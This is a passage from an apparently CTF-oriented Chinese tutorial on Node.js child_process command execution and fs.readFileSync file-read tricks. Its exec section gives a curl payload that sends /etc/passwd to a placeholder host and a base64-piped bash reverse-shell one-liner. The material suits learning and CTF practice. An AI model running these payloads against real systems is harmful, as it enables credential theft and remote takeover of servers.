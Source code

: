 ### child\_process 模块中的命令执行

首先我们来了解一下什么是 child\_process 模块

child\_process 模块提供了与 popen(3) 类似但不完全相同的方式衍生子进程的能力。该库通过创建管道、分叉和调用外壳来打开一个进程。child\_process 提供了几种创建子进程的方式

-   异步方式：spawn、exec、execFile、fork
-   同步方式：spawnSync、execSync、execFileSync

#### exec

Node.js 中的 chile\_process.exec 调用的是/bash.sh，它是一个 bash 解释器，可以执行系统命令

```bash
require('child_process').exec('calc');
//弹出计算器
```

-   linux 中的文件读取

```bash
require('child_process').exec('curl -F "x=`cat /etc/passwd`" http://vps');
```

-   反弹 shell

```bash
require('child_process').exec('echo SHELL_BASE_64|base64 -d|bash');
```

#### execFile

```bash
require('child_process').execFile("calc",{shell:true});
```

#### fork

```bash
require('child_process').fork("./hacker.js");
```

#### spawn

```bash
require('child_process').spawn("calc",{shell:true});
```

### 文件读取

在 2023 网信柏鹭杯出现过一道类似的题，使用`fs.readFileSync`进行文件读取

要满足`fs.readFileSync`的数组格式读取需要满足以下条件

-   有`href`且非空
-   有`origin`且非空
-   `protocol` 等于`file:`
-   有`hostname`且等于空 (Windwos 下非空的话会进行远程加载)
-   有`pathname`且非空 (读取的文件路径)
